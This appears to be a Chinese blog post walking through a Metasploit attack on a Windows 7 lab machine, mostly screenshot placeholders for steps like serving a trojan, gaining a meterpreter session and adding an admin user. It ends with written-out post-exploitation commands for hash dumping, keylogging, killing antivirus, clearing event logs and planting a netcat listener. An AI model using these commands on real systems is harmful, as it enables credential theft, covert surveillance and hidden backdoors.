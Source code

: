 ```yaml
---
layout:     post
title:      msf入侵windows基本实践
subtitle:   msf入侵win7
date:       2021-03-19
author:     BlackFrog-hub
header-img: img/msf_bg.jpg
catalog: true
tags:
    - msf
    - kali
      
---
```


##### 生成木马

![](http://www.blackfrog.top/img/trojan.png)

##### 利用`Python`快速生成一个`HTTPServer`

![](http://www.blackfrog.top/img/python_http.png)

##### 利用靶机访问我们刚刚使用`Python`开启的`HTTPServer`，并下载生成的`Trojan`

![](http://www.blackfrog.top/img/http.png)

##### 启动`msf`

![](http://www.blackfrog.top/img/qidong.png)

##### 设置`payload`,并`exploit & run`成功

![](http://www.blackfrog.top/img/set.png)

##### 将`Trojan`进程移动到其他指定的进程中，这样做的好处是可以给`meterpreter`一个相对稳定的运行环境

![](http://www.blackfrog.top/img/unkill.png)

##### 查看`route`信息

![](http://www.blackfrog.top/img/route.png)

##### 查看进程

![](http://www.blackfrog.top/img/ps.png)

##### Get目标主机`shell`隐藏，获取靶机信息

![](http://www.blackfog.top/img/get.png)

##### 查看`IP`

![](http://www.blackfrog.top/img/ip.png)

##### 添加新用户并加入`administrator`组

![](http://www.blackfrog.top/img/shell.png)

##### 下载靶机文件

![](http://www.blackfrog.top/img/get_file.png)

##### 关闭目标主机`Firewalls`

![](http://www.blackfrog.top/img/off_firewall.png)

##### 其他基本命令
-  `run post/windows/gather/smart_hashdump`  获取目标主机上用户的hash值
-  `run post/windows/capture/keylog_recorder`  键盘记录
-  `run killav` 结束目标主机上的杀毒软件相关进程
-  `clearev`  清除系统日志
-  `upload /usr/share/windows-binaries/nc.exe c:\\windows\\system32`  上传`nc.exe`到目标主机上 (注:`\\`)
-  `dir windows\\system32\\nc.exe`  查看
-  ·execute -f nc -nvlp 3333·  执行nc.exe

